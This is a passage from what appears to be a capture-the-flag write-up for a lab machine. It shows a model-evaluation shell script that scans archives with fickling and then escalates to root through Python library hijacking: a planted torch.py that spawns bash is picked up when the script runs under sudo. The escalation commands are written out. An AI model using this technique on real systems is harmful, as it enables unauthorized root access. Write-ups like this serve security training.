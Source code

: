 ```bash
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```

`/usr/bin/evaluate_model` performs the following main functions:

- Checks that exactly one argument (model file path) is provided.
- Extracts the model file based on its type (tar or zip).
- Scans extracted files for malicious components using fickling.
- Deletes the model file if any malicious components are detected.
- Processes the model file using a Python script if it is deemed safe.

### Python Library Hijacking

Let's exploit `/usr/bin/evaluate_model` execution. 

We will first create a file named torch.py containing Python code that, when executed, will spawn a bash shell:

`echo 'import os; os.system("bash")' > /models/torch.py`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/blurry/image-17.png)

When we run `/usr/bin/evaluate_model` towards `/models/demo_model.pth`, we will get a shell as the root:

`sudo /usr/bin/evaluate_model /models/demo_model.pth`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/blurry/image-18.png)

Let's see what just happened.

`sudo /usr/bin/evaluate_model /models/demo_model.pth`

When we run this command, the following sequence of events occurs within the evaluate_model script:
